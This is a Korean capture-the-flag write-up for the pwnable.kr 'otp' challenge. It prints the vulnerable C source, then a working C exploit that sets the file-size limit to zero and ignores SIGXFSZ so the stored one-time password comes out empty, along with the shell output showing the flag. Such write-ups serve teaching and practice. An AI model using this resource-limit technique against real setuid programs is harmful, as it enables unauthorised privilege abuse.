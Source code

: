 # [pwnable.kr] otp writeup

#### [summary] signal(SIGXFSZ), setrlimit, sigignore ...

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
	char fname[128];
	unsigned long long otp[2];

	if(argc!=2){
		printf("usage : ./otp [passcode]\n");
		return 0;
	}

	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1) exit(-1);

	if(read(fd, otp, 16)!=16) exit(-1);
	close(fd);

	sprintf(fname, "/tmp/%llu", otp[0]);
	FILE* fp = fopen(fname, "w");
	if(fp==NULL){ exit(-1); }
	fwrite(&otp[1], 8, 1, fp);
	fclose(fp);

	printf("OTP generated.\n");

	unsigned long long passcode=0;
	FILE* fp2 = fopen(fname, "r");
	if(fp2==NULL){ exit(-1); }
	fread(&passcode, 8, 1, fp2);
	fclose(fp2);
	
	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
	else{
		printf("OTP mismatch\n");
	}

	unlink(fname);
	return 0;
}
```

넘오나도 신박했던 문제.

ulimit을 이용해서 파일 사이즈에 제한을 걸어 `fwrite(&otp[1], 8, 1, fp)`를 실행을 할 수 없도록 하여 passcode의 content가 NULL이 되도록 하는 문제임.

다만 위와 같이 파일 사이즈에 제한을 건다면 파일 크기 제한 초과라는 의미의 __SIGXFSZ__ 시그널이 보내지게 되며 프로세스가 종료하게 되는데, 이 시그널의 handler를 변경하거나 그냥 해당 시그널을 무시하도록 프로그램을 짜면 된다.

### exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <sys/resource.h>


int main(int argc, char* argv[]){
	struct rlimit rlim;
	rlim.rlim_cur = 0;
	rlim.rlim_max = 0;
	setrlimit(RLIMIT_FSIZE, &rlim);

	sigignore(SIGXFSZ);

	char* home = "/home/otp";	
	chdir(home);
	char* arg[] = {"~/otp", "\x00", NULL};
	char* env[] = {NULL};
	execve(argv[1], arg, env);    

	return 0;
}
```

### result

```shell
otp@prowl:/tmp/charlie$ ./otp2 ~/otp
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
```



> ref
>
> https://12bme.tistory.com/224
> https://www.joinc.co.kr/w/Site/system_programing/Book_LSP/ch06_Signal
> https://duksoo.tistory.com/entry/Linux-setrlimit-getrlimit

